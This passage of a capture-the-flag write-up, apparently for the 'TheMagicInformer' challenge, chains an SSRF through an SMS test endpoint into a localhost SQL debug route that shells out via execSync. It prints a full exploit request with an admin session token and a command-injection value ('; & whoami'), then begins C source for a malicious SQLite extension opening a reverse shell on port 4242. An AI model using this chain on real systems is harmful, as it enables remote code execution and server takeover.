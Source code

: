 ```
}
return res.status(500).send(response('Invalid debug password supplied!'));

});
```

It was executing a sqlite queries as a command on system with execSync taking an input from the user by only filtering out double quotes.

However we needed to be a localhost to execute the command and the sql-prompt.html also didn’t include a submit button. xD This and that the invalid  `apikey`  we found earlier just gave a instant hint that we can use the  `POST`  endpoint at  `/api/sms/test`  for sending the request at  `/debug/sql/exec`:

We came up with the following Request for making a valid sqlite query:

```
POST  /api/sms/test  HTTP/1.1  Host:  159.65.63.151:32528  Content-Length:  418  User-Agent:  Mozilla/5.0  (Windows  NT  10.0;  Win64;  x64)  AppleWebKit/537.36  (KHTML,  like  Gecko)  Chrome/105.0.5195.127  Safari/537.36  Content-Type:  application/json  Accept:  */*  Origin:  http://159.65.63.151:32528  Referer:  http://159.65.63.151:32528/sms-settings  Accept-Encoding:  gzip,  deflate  Accept-Language:  en-US,en;q=0.9  Cookie:session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNjcwMDAxMDcyfQ.Nj1dGrOgfIJ9iNocGRSJmCIVKQhJhKqEyo3ExAu4vkE  Connection:  close  {"verb":"POST","url":"http://127.0.0.1:1337/debug/sql/exec","params":"{\"sql\" : \"select 0 from enrollments; & whoami\", \"password\": \"CzliwZJkV60hpPJ\"}","headers":"Content-Type: application/json\nCookie: session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNjcwMDAxMDcyfQ.Nj1dGrOgfIJ9iNocGRSJmCIVKQhJhKqEyo3ExAu4vkE","resp_ok":"<status>ok</status>","resp_bad":"<status>error</status>"}  
```

![TheMagicInformer-4](https://user-images.githubusercontent.com/95465072/215003007-57d2a1db-d93f-4891-a70f-1f95cb097be0.png)


Now we needed to somehow get an RCE or the ability to execute commands but the double quote filter was a issue. Just simple searches lead me to the  `load_Extensions()`  function in sqlite.

We found the following github repository which included the source code to make a shared library file that the function takes in as a input then which later allows us to execute commands:  [GitHub Link](https://github.com/mpaolino/sqlite-execute-module)

We were able to execute commands like  `ls`  and  `whoami`:

![TheMagicInformer-5](https://user-images.githubusercontent.com/95465072/215003057-9c52ed52-f696-41a5-a9ec-78e1486b6611.png)



I tried copying the C code for reverse shell from the cheat sheet and adding it directly into the Shared library so that it gets executed with the main function of it.

So the final code we were left off with was the following:
```
#include <sqlite3ext.h> /* Do not use <sqlite3.h>! */  SQLITE_EXTENSION_INIT1
#include <stdio.h> #include <sys/socket.h> #include <sys/types.h> #include <unistd.h> #include <netinet/in.h> #include <arpa/inet.h> #include <stdlib.h> #ifdef _WIN32 __declspec(dllexport)
#endif static void systemExec(
sqlite3_context *context,
int argc,
sqlite3_value **argv
){
const unsigned char * cmd = sqlite3_value_text(argv[0]);
int ret = system((const char *)cmd);
}
int sqlite3_extension_init(
sqlite3 *db,
char **pzErrMsg,
const sqlite3_api_routines *pApi
){
int port = 4242;
struct sockaddr_in revsockaddr;
```